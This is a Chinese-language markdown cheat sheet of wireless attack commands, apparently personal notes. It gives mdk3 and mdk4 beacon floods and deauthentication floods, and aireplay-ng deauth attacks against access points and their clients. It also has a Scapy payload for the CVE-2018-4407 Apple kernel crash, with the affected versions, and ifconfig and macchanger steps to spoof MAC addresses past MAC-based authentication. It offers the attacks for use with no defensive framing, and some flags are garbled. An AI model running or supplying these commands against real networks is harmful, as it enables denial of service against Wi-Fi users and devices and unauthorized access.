  #### Beacon flood
	需切换网卡为监听模式
	>airmon-ng start wlan1
	创建大量虚假热点Mdk3 mon0 b
	>mdk3 wlan1mon b -f /root/wifi.txt -a -s 1500
 #### Deauth flood
	针对AP
	>airmon-ng start wlan1
	>aireplay-ng –deauth 10 –a AP's mac address mon0
	针对AP内设备
	>airmon-ng start wlan1       将网卡置为监听模式
	>airodump-ng wlan1mon –bssid 目标ap的ssid
	>aireplay-ng -0 0 -a ap的ssid -c AP的ssid wlan0mon 开始攻击
 #### Mdk3 destruction
	针对范围内
	>mdk3 wlan1mon d
	针对AP
	>airodump-ng wlan1mon
	>mdk3 wlan1mon a -a APmac 发起攻击
	黑名单
	>mdk3 wlan1mon d –c 信道 –b /blacklist.txt.
	>mdk3 wlan1mon  b -n test -w -g -c 1 -s 200
 #### WiFi芯片esp8266
 #### Mdk4
	>mdk4 wlan0mon d
 #### CVE-2018-4407
	Scapy
	send(IP(dst="192.168.1.132",options=[IPOption("A"*8)])/TCP(dport=2323,options=[(19, "1"*18),(19, "2"*18)]))
	Apple iOS 11及更早版本：所有设备（升级到iOS 12的部分设备）
	Apple macOS High Sierra（受影响的最高版本为10.13.6）：所有设备（通过安全更新2018-001修复）
	Apple macOS Sierra（受影响的最高版本为10.12.6）：所有设备（通过安全更新2018-005中修复）
	Apple OS X El Capitan及更早版本：所有设备
 #### 绕过mac地址认证
 ##### Ifconfig
	>ifconfig wlan1 down
	>ifconfig wlan1 hw ether xx:xx:xx:xx:xx:xx
	>ifconfig wlan1 up
 ##### Macchanger
	>macchanger –m xx:xx:xx:xx:xx:xx wlan1
	>macchanger –r wlan1